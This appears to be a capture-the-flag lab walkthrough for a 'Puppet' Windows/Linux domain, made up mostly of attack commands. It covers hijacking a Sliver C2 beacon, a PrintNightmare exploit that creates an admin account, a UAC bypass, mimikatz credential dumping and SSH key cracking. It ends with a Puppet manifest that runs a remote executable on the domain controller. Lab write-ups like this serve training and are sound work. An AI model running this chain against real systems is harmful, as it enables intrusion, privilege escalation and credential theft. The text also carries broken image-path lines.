






# puppet (mine pro lab)

### Lab Infrastructure <a href="#id-7eeb" id="id-7eeb"></a>

```
PUPPET-PM01      Linux (Master)
PUPPET-DC01      Windows (Domain Controller)
PUPPET-FILE01    Windows (File Server)
```

### Reconnaissance <a href="#id-852b" id="id-852b"></a>

#### Initial Enumeration <a href="#id-06b4" id="id-06b4"></a>


```shellscript
nmap -Pn -sC -sV 10.13.38.33
```


<figure><figcaption></figcaption></figure>


* **21/tcp** — vsftpd 3.0.5 (anonymous FTP enabled)
* **22/tcp** — OpenSSH
* **8443/tcp** — Sliver C2 server (HTTPS)
* **31337/tcp** — Elite (C2 port)


#### FTP Discovery <a href="#b833" id="b833"></a>


```
ftp 10.13.38.33
```


<figure><figcaption></figcaption></figure>


Finding: The configuration file contained <mark style="color:$danger;">`localhost:31337`</mark>, indicating the C2 server


<figure><figcaption></figcaption></figure>

### Initial Access via C2 <a href="#bcce" id="bcce"></a>

**Step 1:** Set up socat relay from attack machine to internal C2 serverس



```shellscript
sudo socat TCP-LISTEN:31337,reuseaddr,fork TCP:10.13.38.33:31337
```


<figure><figcaption></figcaption></figure>

**Step 2 :** Import the configuration and connect to Sliver


```
./sliver-client_linux import red_127.0.0.1.cfg
./sliver-client_linux
```


<figure><figcaption></figcaption></figure>

Step 3 : Running the `beacons and sessions` command shows that a beacon is already connected


```
beacons
sessions
```


<figure><figcaption></figcaption></figure>

Step 4 : interactive with sessions

<figure><figcaption></figcaption></figure>

**Step 5:** Locate the first flag


```shellscript
execute -o -- cmd.exe /c dir "C:\Users\Bruce.Smith\Desktop"
execute -o -- cmd.exe /c type "C:\Users\Bruce.Smith\Desktop\flag.txt"
```


<figure><figcaption></figcaption></figure>

***

### Local Privilege Escalation

Step 1 : show the current privilege


```shellscript
execute -o -- cmd.exe /c whoami /all
```


<figure><figcaption></figcaption></figure>

Step 2 : Ran PrivescCheck to enumerate local privilege escalation


```shellscript
armory install -c sharpsh
sharpsh -t 300 -- -c invoke-privesccheck -u c:\\temp\\PrivescCheck.ps1
```


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

#### Exploitation: PrintNightmare (CVE-2021–1675) <a href="#id-24e2" id="id-24e2"></a>

**Step 2:** Execute the exploit to create a local admin user


```shellscript
execute -o -- powershell.exe -ExecutionPolicy Bypass -NoProfile -Command ". c:\users\bruce.smith\Documents\CVE-2021-34527.ps1; Invoke-Nightmare -NewUser ITadmin -NewPassword P@ssw0rd"
```


<figure><figcaption></figcaption></figure>

**Step 3 :** Spawn a beacon as the new admin user


```shellscript
runas -u ITadmin -P "P@ssw0rd" -p "C:\ProgramData\Puppet\puppet-update.exe"
```


<figure><figcaption></figcaption></figure>

#### UAC Bypass to SYSTEM <a href="#f1e0" id="f1e0"></a>


```shellscript
upload /home/kali/.sliver-client/extensions/UAC-BOF-Bonanza/SspiUacBypass/bin/standalone/SspiUacBypass.exe "C:\temp\SspiUacBypass.exe"
execute -o -- "c:\temp\SspiUacBypass.exe" "c:\programdata\puppet\puppet-update.exe"
```


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

#### Credential Dumping <a href="#id-7c52" id="id-7c52"></a>

With SYSTEM privileges:


```
armory install windows-credentials
sideload /home/xct/drop/mimikatz.exe "token::elevate privilege::debug sekurlsa::logonpasswords exit"
mimikatz privilege::debug sekurlsa::logonpasswords exit

```


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### Lateral Movement via Service Account <a href="#id-264d" id="id-264d"></a>

#### Migrate to Service Process <a href="#id-5644" id="id-5644"></a>


```shellscript
ps
migrate -p 3580
```


<figure><figcaption></figcaption></figure>

Enumerations sharing file on dc


```shellscript
sa-netshares dc01
ls "\\dc01.puppet.vl\it"
```


<figure><figcaption></figcaption></figure>


#### Download SSH Key and crack the passphrase <a href="#id-55ee" id="id-55ee"></a>



```shellscript
ssh2john ed25519 > ed25519.hash
john ed25519.hash --wordlist=/home/kali/rockyou_utf8.txt 
```


<figure><figcaption></figcaption></figure>

#### SSH Access to Puppet Server <a href="#d303" id="d303"></a>

* Set up port forwarding through the Sliver beacon:


```shellscript
portfwd add --bind 2222 -r 172.16.40.200:22
```


<figure><figcaption></figcaption></figure>

Connect via SSH:


```shellscript
ssh -i ed25519 -p 2222 "svc_puppet_lin_t1@puppet.vl"@127.0.0.1
```


<figure><figcaption></figcaption></figure>

### Privilege Escalation on Puppet Server <a href="#b95b" id="b95b"></a>

Check sudo permissions:


```shellscript
sudo -l 
```


<figure><figcaption></figcaption></figure>



```
mkdir -p /etc/puppet/code/environments/production/manifests
chmod 777 /etc/puppet/code/environments/production/manifests
nano /etc/puppet/code/environments/production/manifests/site.pp
chmod 777 /etc/puppet/code/environments/production/manifests/site.pp
node 'dc01.puppet.vl' {
  exec { 'pwned':
    command   => 'C:\\Windows\\System32\\cmd.exe /c \\\\file01.puppet.vl\\files\\puppet-update.exe',
    logoutput => true,
  }
}
node default {
  notify { 'This is the default node': }
}

puppet apply /etc/puppet/code/environments/production/manifests/site.pp 

```


<figure><figcaption></figcaption></figure>
